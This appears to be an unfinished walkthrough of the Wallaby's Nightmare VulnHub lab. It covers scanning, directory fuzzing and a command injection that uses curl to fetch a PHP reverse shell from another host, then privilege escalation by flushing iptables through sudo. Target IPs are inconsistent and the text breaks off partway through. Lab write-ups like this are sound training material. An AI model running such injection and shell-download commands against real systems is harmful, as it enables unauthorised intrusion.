 # Wallaby's: Nightmare (v1.0.2)

https://www.vulnhub.com/entry/wallabys-nightmare-v102,176/

TODO 

We do a netdiscover to find `192.168.1.102` and do an nmap scan

```
root@kali:~# nmap -sC -sV -p- -A -T4 192.168.1.103

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-13 18:48 BST
Nmap scan report for ubuntu.home (192.168.1.103)
Host is up (0.00013s latency).
Not shown: 65532 closed ports, 1 filtered port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:07:fc:70:20:98:f8:46:e4:8d:2e:ca:39:22:c7:be (RSA)
|   256 99:46:05:e7:c2:ba:ce:06:c4:47:c8:4f:9f:58:4c:86 (ECDSA)
|_  256 4c:87:71:4f:af:1b:7c:35:49:ba:58:26:c1:df:b8:4f (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Wallaby's Server
MAC Address: 00:0C:29:D4:C5:A0 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.13 ms ubuntu.home (192.168.1.103)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.18 seconds
```

We view the browser and see an input a username. Following the game, we asked to fuzz. I tried a simple LFI code injection to be met with a message saying that I was caught and difficulty increased. Revisiting the site didn't work, so we do nmap scan again and see it has moved ports `http://192.168.1.103:60080/`

Now we do some fuzzing, using wfuzz gives all results 200, so we switch to dirbuster

```
root@kali:~# dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting URL fuzz
Starting fuzz on http://192.168.1.103:60080/index.php?page={dir}
Dir found: /index.php?page=contact - 200
Dir found: /index.php?page=home - 200
Dir found: /index.php?page=index - 200
Dir found: /index.php?page=%27 - 200
Dir found: /index.php?page=index - 200
Dir found: /index.php?page=mailer - 200
Dir found: /index.php?page=blacklist - 200
Dir found: /index.php?page=who%27s-connecting - 200
```

Going through all of them, we see that mailer can execute http://192.168.1.103:60080/index.php?page=mailer&mail=whoami. We can try ncat with -e or even without e or php reverse shell. `http://192.168.1.68:60080/index.php?page=mailer&mail=curl http://192.168.1.88/shell.php > shell.php; chmod 777 shell.php; ls -al` and `nc -lvp 1234`...


### Privelege Escalation
I have read that dirty cow works which is kind of the goto exploit. Alternatively, running `sudo -l` we see that we can run vim for waldo (e.g. sudo -u waldo usr/bin/vim ...) and iptables for all (e.g. sudo /sbin/iptables ...). We can see the firewall rules `sudo /sbin/iptables -L`

```
www-data@ubuntu:$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
    
www-data@ubuntu:$ sudo /sbin/iptables -L
sudo /sbin/iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd
DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination

www-data@ubuntu:$ sudo /sbin/iptables --flush
```

Now that we have removed the rules, we should see that the 6667 port for IRC is unblocked and we can connect to it. We also find the logs file for `#wallabyschat` in wallaby home directory. We also see from the directory, the module folder responsible for the bot in the IRC. If we log in to IRC and run .help, we can see the list of commands.
